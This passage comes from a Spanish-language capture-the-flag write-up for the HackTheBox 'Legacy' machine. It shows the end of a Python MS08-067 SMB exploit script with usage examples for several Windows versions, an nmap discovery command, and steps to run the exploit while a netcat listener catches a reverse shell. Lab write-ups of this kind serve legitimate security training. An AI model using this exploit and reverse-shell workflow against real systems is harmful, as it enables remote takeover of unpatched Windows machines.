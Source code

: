 ```python
    def run(self):
        self.__DCEPacket()
        self.__dce.call(0x1f, self.__stub)
        time.sleep(3)
        print('Exploit finish\n')

if __name__ == '__main__':
       try:
           target = sys.argv[1]
           os = sys.argv[2]
           port = sys.argv[3]
       except IndexError:
                print('\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0])
                print('Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445')
                print('Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)')
                print('Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal')
                print('Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English')
                print('Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)')
                print('Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)')
                print('Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)')
                print('')
                print('FYI: nmap has a good OS discovery script that pairs well with this exploit:')
                print('nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1')
                print('')
                sys.exit(-1)


current = SRVSVC_Exploit(target, os, port)
current.start()
```

Ahora solamente nos falta ejecutar el script con `python2.7 exploit.py 10.10.10.4 7` mientras estamos en escucha con [[rlwrap nc -lvnp 443]]
Si te llegan a aparecer algunos errores. Mas abajo muestro los que me aparecian a mi y como los solucione

![[Legacy11.png]]

Esto ya nos tendria que haber mandado la [[Reverse shell]] y podemos catear las flags

![[Legacy8.png]]
![[Legacy9.png]]
